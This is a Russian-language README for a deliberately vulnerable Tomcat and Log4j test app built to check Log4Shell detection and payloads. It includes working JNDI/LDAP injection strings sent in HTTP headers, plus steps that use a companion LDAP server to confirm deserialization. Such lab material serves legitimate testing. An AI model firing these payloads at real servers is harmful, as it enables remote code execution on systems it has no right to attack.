 # log4j-poc

Тестовое веб-приложение на основе Tomcat 10.1 (OpenJDK 21),
включающее уязвимую версию библиотеки Log4j 2.x версии 2.25
с внесенной уязвимостью Log4Shell. Уязвимое приложение
позволяет эксплуатацию в HTTP-заголовках, отправляемых в лог
Tomcat (/usr/local/tomcat/logs/catalina.out). Приложение
предназначено для целей тестирования и проверки полезных
нагрузок.

# Сборка и запуск

Для сборки и запуска необходима POSIX-совместимая операционная
система, включающая следующие компоненты:

- git
- docker
- curl

# сборка

```
git clone https://github.com/sercher/log4j-poc.git
cd log4j-poc
docker build -t log4j-poc:latest .
```

# запуск

```
docker run -d -p 8080:8080 --add-host=host:host-gateway log4j-poc
```

Запущенное приложение доступно по адресу

```
localhost:8080/myapp
```

# Проверка lookup без добавления полезной нагрузки

```
(
  sleep 1 | nc -l 1339 &>/dev/null && echo '[!] VULNERABLE TO LOG4SHELL' &
  pid=$!
  curl -H 'Header-poc: ${jndi:ldap://host:1339/a}' 'http://localhost:8080/myapp/'
  sleep 3
  kill -9 $pid 2>/dev/null
)
```

Альтернативно можно использовать готовый собранный образ

```
docker pull sercher78/sercher:log4j-poc-small
```

Тогда запуск приложения будет осуществляться командой

```
docker run -d -p 8080:8080 --add-host=host:host-gateway sercher78/sercher:log4j-poc-small
```

# Проверка сериализации с добавлением полезной нагрузки

- maven
- сборка LDAP сервера (см. [ldap-server](https://github.com/sercher/ldap-server))

```
git clone https://github.com/sercher/ldap-server.git
cd ldap-server
mvn clean compile assembly:single
```

- запуск LDAP сервера

```
java -cp target/ldap-server-1.0-SNAPSHOT-jar-with-dependencies.jar LdapServer &
```

- проверка сериализации

```
(
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/' &>/dev/null && \
  docker exec -it $(docker ps -lq) tail /usr/local/tomcat/logs/application.log | grep OBJECT-DESERIALIZED && echo '[!] HIGHLY VULNERABLE TO LOG4SHELL'
)
```

- остановка LDAP сервера

```
fg
нажать <CTRL-C>
```

Отчет об уязвимостях docker hub:
- [sercher78/sercher:log4j-poc-small](https://hub.docker.com/repository/docker/sercher78/sercher/tags/log4j-poc-small/sha256-a421b26712f4ba1989edcd9d7603dab011a6613b485f288d9f563adbf39742d0)

Обнаруженные уязвимости целиком находятся во внутреннем слое (tomcat:10)
